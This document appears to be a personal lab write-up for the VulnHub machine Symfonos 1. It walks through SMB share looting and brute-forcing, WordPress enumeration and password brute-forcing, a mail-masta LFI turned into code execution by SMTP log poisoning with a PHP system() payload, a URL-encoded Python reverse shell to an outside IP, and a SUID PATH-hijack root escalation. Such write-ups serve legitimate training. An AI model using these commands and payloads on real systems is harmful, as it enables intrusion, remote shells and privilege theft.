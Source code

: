 # NMAP Scan
- tcp/22
- tcp/80
- tcp/139,445
- udp/137

# Port 139,445 (SMB)
1. Ran enum4linux-ng
	![[Symfonos1 enum4linux-ng .png]]
	- Store them in wordlist
		- usernames.txt
			- helios
			- Helios
	- Save user `helios` into a wordlist `usernames.txt`
1. Ran crackmapexec 
	![[Symfonos1 crackmapexec.png]]
	- Able to read `anonymous` fileshare
3. Download all files from `anonymous` fileshare
	```
	smbclient //$ip/anonymous -c 'prompt;recurse;mget *'
	```
	![[Symfonos1 anonymous dir.png]]
	- Store them in wordlists
		- usernames.txt
			- Zeus
			- zeus
		- passwords.txt
			- epidioko
			- qwerty
			- baseball
4. Bruteforce SMB 
	- https://github.com/yufongg/SMB-Fileshare-Bruteforce/blob/main/smb_fileshare_bruteforce.sh
	![[Symfonos1 smb fileshare bruteforce.png]]
5. Download all files from `helios` fileshare
	```
	smbclient //$ip/helios -U helios -c 'prompt;recurse;mget *'
	```
	![[Bob 1.0.1 helios fileshare dir.png]]

# Port 80 (HTTP) - Wordpress Plugin LFI
1. Feroxbuster did not enumerate any interesting dirs
	![[Symfonos1 feroxbuster.png]]
2. Proceed to `/h3l105`
	- Found wordpress site
	![[Symfonos1 wordpress site.png]]
3. Enumerate wordpress users
	```
	wpscan --no-update --disable-tls-checks --url http://symfonos.local/h3l105 -e u -f cli-no-color 2>&1 | tee "/root/vulnHub/Symfonos-1/192.168.56.123/scans/tcp80/tcp_80_http_wpscan_user_enum.txt"
	```
	![[Symfonos1 wordpress user enum.png]]
	- admin
4. Enumerate wordpress plugins
	```
	wpscan --no-update --disable-tls-checks --plugins-detection aggressive --plugins-version-detection aggressive --url http://symfonos.local/h3l105 -e ap -f cli-no-color 2>&1 | tee "/root/vulnHub/Symfonos-1/192.168.56.123/scans/tcp80/tcp80_http_wpscan_plugin_enum.txt"
	```
	![[Symfonos1 wordpress plugins enum.png]]
	- akismet
		- 4.1.2
	- mail-masta
		- 1.0
	- site-editor
		- 1.1.1
5. Bruteforce admin
	```
	wpscan --no-update --disable-tls-checks --wp-content-dir wp-admin --url http://symfonos.local/h3l105 --usernames admin --passwords /usr/share/wordlists/rockyou.txt -f cli-no-color 2>&1 | tee "/root/vulnHub/Symfonos-1/192.168.56.123/scans/tcp80/tcp_80_http_wpscan_bruteforce.txt"
	```
	- Bruteforce failed
6. Search for exploits
	- site-editor 1.1.1
		![[Symfonos1 site editor exploit.png]]
	- mail-masta
		![[Symfonos1 mail masta exploit.png]]
7. Manually exploit mail-masta, 
	1. Exploitable parameter 
		```
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=<LFI File>
		```
	2. Include `/etc/passwd`
		```
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
		```
		![[Symfonos1 included passwd file.png]]
	3. Since SMTP (tcp/25) is up, we can do SMTP log poisoning
	4. Poison mail log
		```
		telnet 192.168.1.119 25
		MAIL FROM:asdf
		RCPT TO: helios
		DATA
		<?php system($_GET['c']); ?>
		.
		QUIT
		```
	5. Include mail log file & test RCE
		```
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=id;
		```
		![[Symfonos1 LFI2RCE.png]]
		6. Obtain helios shell
		```
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=which+python;
		```
		```
		http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&c=python%20-c%20%27a%3D__import__%3Bs%3Da%28%22socket%22%29.socket%3Bo%3Da%28%22os%22%29.dup2%3Bp%3Da%28%22pty%22%29.spawn%3Bc%3Ds%28%29%3Bc.connect%28%28%22192.168.56.103%22%2C4444%29%29%3Bf%3Dc.fileno%3Bo%28f%28%29%2C0%29%3Bo%28f%28%29%2C1%29%3Bo%28f%28%29%2C2%29%3Bp%28%22%2Fbin%2Fsh%22%29%27
		```
		![[Symfonos helios shell obtained.png]]

# Privilege Escalation via SUID Binary
1. Check for SUID binaries
	![[Pasted image 20220114174813.png]]
	- unknown binary
2. Check the contents `/opt/statuscheck` w/ strings
	![[Pasted image 20220114174912.png]]
3. Since full path of curl is not specified, path hijacking exploit can be used
	1.  Prepend `/tmp` to your PATH 
		```
		export PATH=/tmp:$PATH
		```
	2. Create `curl` binary
		```
		echo "cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash" > curl; chmod +x curl;
		```
		- Since `/tmp` is in your first PATH, `curl` from `/tmp` will be used.
	3. Obtain root shell
		```	
		/opt/statuscheck
		/tmp/rootbash -p
		```
4. Root obtained
	![[Symfonos1 root shell obtained.png]]
	
	
	
	
---
Tags: #tcp/80-http/cms/wordpress-plugin #exploit/file-inclusion/lfi #tcp/80-http/rce #linux-priv-esc/suid/unknown-exec #linux-priv-esc/suid/path-hijacking 

---

	


